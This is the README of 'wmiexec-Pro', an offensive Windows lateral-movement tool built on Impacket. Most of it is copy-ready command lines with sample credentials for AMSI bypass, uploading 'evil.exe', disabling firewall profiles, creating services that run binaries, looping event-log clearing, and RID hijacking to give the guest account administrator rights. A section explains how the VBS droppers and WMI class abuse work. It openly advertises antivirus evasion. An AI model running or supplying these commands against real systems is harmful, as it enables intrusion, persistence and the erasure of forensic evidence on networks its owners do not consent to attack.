


<a name="readme-top"></a>

# wmiexec-Pro

New generation of wmiexec.py.

#### Table of Contents
<ol>
<li>
  <a href="#info">Info</a>
</li>
<li>
  <a href="#features">Features</a>
</li>
<li>
  <a href="#getting-started">Getting Started</a>
  <ul>
    <li><a href="#installation">Installation</a></li>
  </ul>
</li>
<li><a href="#usage">Usage</a></li>
<li><a href="#screenshots">Screenshots</a></li>
<li><a href="#how-it-works">How it works?</a></li>
<li><a href="#references">References</a></li>
</ol>


## Info

The new generation of wmiexec.py, more new features, whole the operations only work with port 135 (don't need smb connection) for AV evasion in lateral movement  (Windows Defender, HuoRong, 360)

<p align="right">(<a href="#readme-top">back to top</a>)</p>

## Features

- Main feature: AV Evasion
- Main feature: No `win32_process` needed
- Main feature: Only need port 135.
- New module: AMSI bypass
- New module: File transfer
- New module: Remote enable RDP via wmi class method
- New module: Windows firewall abusing
- New module: Eventlog looping cleaning
- New module: Remote enable WinRM without touching CMD
- Enhancement: Get command execution output in new way
- Enhancement: Execute vbs file

<p align="right">(<a href="#readme-top">back to top</a>)</p>

## Getting Started

### Installation

_Only need latest version of Impacket_

1. Clone the impacket repository
   ```sh
   git clone https://github.com/fortra/impacket
   ```
2. Install imapcket
   ```sh
   cd imapcket && sudo pip3 install .
   ```
3. Enjoy it :)
   ```sh
   git clone https://github.com/XiaoliChan/wmiexec-Pro
   ```

<p align="right">(<a href="#readme-top">back to top</a>)</p>


## Usage

```
python3 wmiexec-pro.py [[domain/]username[:password]@]<targetName or address> module -h

Basic enumeration:
   python3 wmiexec-pro.py administrator:password@192.168.1.1 enum -run

Enable/disable amsi bypass:
   python3 wmiexec-pro.py administrator:password@192.168.1.1 amsi -enable
   python3 wmiexec-pro.py administrator:password@192.168.1.1 amsi -disable

Execute command:
   python3 wmiexec-pro.py administrator:password@192.168.1.1 exec-command -command "whoami" (Slient mode)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 exec-command -command "whoami" -old (Slient mode in old version OS, such as server 2003)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 exec-command -command "whoami" -with-output (With output)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 exec-command -command "whoami" -with-output -old (With output in old version OS, such as server 2003)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 exec-command -command "whoami" -with-output -save (With output and save output to file)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 exec-command -command "whoami" -with-output -old -save
   python3 wmiexec-pro.py administrator:password@192.168.1.1 exec-command -clear (Remove temporary class for command result storage)
   
Filetransfer:
   python3 wmiexec-pro.py administrator:password@192.168.1.1 filetransfer -upload -src-file "./evil.exe" -dest-file "C:\windows\temp\evil.exe" (Upload file over 512KB)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 filetransfer -download -src-file "C:\windows\temp\evil.exe" -dest-file "/tmp/evil.exe" (Download file over 512KB)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 filetransfer -clear (Remove temporary class for file transfer)
   
RDP:
   python3 wmiexec-pro.py administrator:password@192.168.1.1 rdp -enable (Auto configure firewall)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 rdp -enable -old (For old version OS, such as server 2003)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 rdp -enable-ram (Enable Restricted Admin Mode for PTH, not support old version OS, such as server 2003)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 rdp -disable
   python3 wmiexec-pro.py administrator:password@192.168.1.1 rdp -disable -old (For old version OS, such as server 2003, not support old version OS, such as server 2003)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 rdp -disable-ram (Disable Restricted Admin Mode)

WinRM (Only support win7+):
   python3 wmiexec-pro.py administrator:password@192.168.1.1 winrm -enable
   python3 wmiexec-pro.py administrator:password@192.168.1.1 winrm -disable

Firewall (Only support win8+):
   python3 wmiexec-pro.py administrator:password@192.168.1.1 firewall -search-port 445
   python3 wmiexec-pro.py administrator:password@192.168.1.1 firewall -dump (Dump all firewall rules)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 firewall -rule-id (ID from search port) -rule-op [enable/disable/remove] (enable, disable, remove specify rule)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 firewall -firewall-profile enable (Enable all firewall profiles)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 firewall -firewall-profile disable (Disable all firewall profiles)
   
Services:
   python3 wmiexec-pro.py administrator:password@192.168.1.1 service -action create -service-name "test" -display-name "For test" -bin-path 'C:\windows\system32\calc.exe'
   python3 wmiexec-pro.py administrator:password@192.168.1.1 service -action create -service-name "test" -display-name "For test" -bin-path 'C:\windows\system32\calc.exe' -class "Win32_TerminalService" (Create service via alternative class)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 service -action start -service-name "test"
   python3 wmiexec-pro.py administrator:password@192.168.1.1 service -action stop -service-name "test"
   python3 wmiexec-pro.py administrator:password@192.168.1.1 service -action disable -service-name "test"
   python3 wmiexec-pro.py administrator:password@192.168.1.1 service -action auto-start -service-name "test"
   python3 wmiexec-pro.py administrator:password@192.168.1.1 service -action manual-start -service-name "test"
   python3 wmiexec-pro.py administrator:password@192.168.1.1 service -action getinfo -service-name "test"
   python3 wmiexec-pro.py administrator:password@192.168.1.1 service -action delete -service-name "test"
   python3 wmiexec-pro.py administrator:password@192.168.1.1 service -dump all-services.json

Eventlog:
   python3 wmiexec-pro.py administrator:password@192.168.1.1 eventlog -risk-i-know (Looping cleaning eventlog)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 eventlog -retrive object-ID (Stop looping cleaning eventlog)

RID Hijack:
   python3 wmiexec-pro.py administrator:password@192.168.1.1 rid-hijack -user 501 -action grant (Grant access permissions for SAM/SAM subkey in registry)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 rid-hijack -user 501 -action grant-old (For old version OS, such as server 2003)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 rid-hijack -user 501 -action retrieve (Restrict access permissions for SAM/SAM subkey in registry)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 rid-hijack -user 501 -action retrieve-old (For old version OS, such as server 2003)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 rid-hijack -user 501 -action activate (Activate user)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 rid-hijack -user 501 -action deactivate (Deactivate user)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 rid-hijack -user 501 -action hijack -user 501 -hijack-rid 500 (Hijack guest user rid 501 to administrator rid 500)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 rid-hijack -blank-pass-login enable (Enable blank password login)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 rid-hijack -blank-pass-login disable
   
```

<p align="right">(<a href="#readme-top">back to top</a>)</p>


## Screenshots
- Help
  - 

- exec-command
  - 

- filetransfer

  - upload file

    

  - download file  

    

<p align="right">(<a href="#readme-top">back to top</a>)</p>


## How it works?

- AMSI module:
  - Tal-Liberman's technique from blackhat asia 2018.

- exec-command module:
  - Enhancement of previous project: [wmiexec-RegOut](https://github.com/XiaoliChan/wmiexec-RegOut), get output from wmi class instead of from registry.

- filetransfer module:
  - For upload: encode the source file as base64 strings into the dropper named `WriteFile.vbs`, then create a new instance of object `ActiveScriptEventConsumer` to execute the dropper.
  - For download: remote create a class to store data, then execute the encoder `LocalFileIntoClass.vbs` to encode the file and store data into the class that just created.

- rdp module:
  - For enable/disable: rdp serivces: control `TerminalServices` object directly.
  - For enable/disable: Restricted Admin Mode: control registry key `DisableRestrictedAdmin` via `StdRegProv` class.

- winrm module:
  - For enable/disable: invoke service module.
  - For firewall rules: use module `firewall.py` to configure firewall of winrm.

- firewall module:
  - Abusing `MSFT_NetProtocolPortFilter`, `MSFT_NetFirewallRule`, `MSFT_NetFirewallProfile` classes.

- service module:
  - Abusing `Win32_Service` classes.

- eventlog module:
  - Execute the vbs script file `ClearEventlog.vbs` without remove `event` and `consumer`.

- execute-vbs module:
  - Picked from `wmipersist.py`.

- classMethodEx method:
  - For create class: execute the vbs scritp : `CreateClass.vbs` to create simple class. (Why? Have no idea how to use `PutClass` method in impacket.)
  - For remove class: call `DeleteClass` method to remove class.

<p align="right">(<a href="#readme-top">back to top</a>)</p>


## References

* [GhostPack/SharpWMI](https://github.com/GhostPack/SharpWMI)
* [impacket](https://github.com/fortra/impacket/)
* [WMIHACKER](https://github.com/rootclay/WMIHACKER)
* [Microsoft WMI Docs](https://learn.microsoft.com/en-us/windows/win32/cimwin32prov/operating-system-classes)
* [Microsoft VBScripts Docs](https://learn.microsoft.com/en-us/windows/win32/wmisdk/creating-a-wmi-script)

<p align="right">(<a href="#readme-top">back to top</a>)</p>

